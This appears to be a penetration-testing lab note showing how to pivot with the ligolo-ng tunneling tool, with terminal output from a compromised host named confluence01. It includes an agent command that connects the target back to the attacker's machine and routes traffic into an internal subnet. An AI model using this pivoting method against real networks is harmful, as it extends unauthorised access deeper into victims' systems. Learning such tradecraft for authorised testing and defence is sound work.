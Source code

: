 # Ligolo
- We can use `ligolo` to pivot. Repository is on [Nicocha30 Github](https://github.com/nicocha30/ligolo-ng)
- Ligolo uses an `agent` and `proxy` binary - running the `proxy` binary requires root privileges
- Start `ligolo` and create a new interface
```zsh
sudo ./proxy --selfcert

ligolo-ng » interface_create --name ligolo
ligolo-ng » interface_list
┌───────────────────────────────────────────────────────────┐
│ Available tuntaps                                         │
├───┬──────────┬────────────────────────────────────────────┤
│ # │ TAP NAME │ DST ROUTES                                 │
├───┼──────────┼────────────────────────────────────────────┤
│ 0 │ tun0     │ 192.168.45.0/24,192.168.245.0/24,fe80::/64 │
│ 1 │ ligolo   │                                            │
└───┴──────────┴────────────────────────────────────────────┘
```
- After we have set up the _proxy_ on our attacking machine, we can connect on our target using `agent`
```zsh
.\agent.exe -connect <Attack IP>:11601 -ignore-cert -retry
```
- We will get a notification on our `proxy` once a connection is established
- Next, we will need to set up the appropriate routes. We can use the `session` command on our proxy and select the appropriate session to interact with and run `ifconfig` to show the network configuration of the connected `agent`
```zsh
ligolo-ng » session
? Specify a session : 1 - confluence@confluence01 - 192.168.245.63:52938 - a08efa35-f0d5-4c32-bc98-c4217a16f917
[Agent : confluence@confluence01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens192                         │
│ Hardware MAC │ 00:50:56:9e:b5:2e              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.245.63/24              │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:9e:51:b3              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.4.245.63/24                 │
└──────────────┴────────────────────────────────┘
[Agent : confluence@confluence01] »
```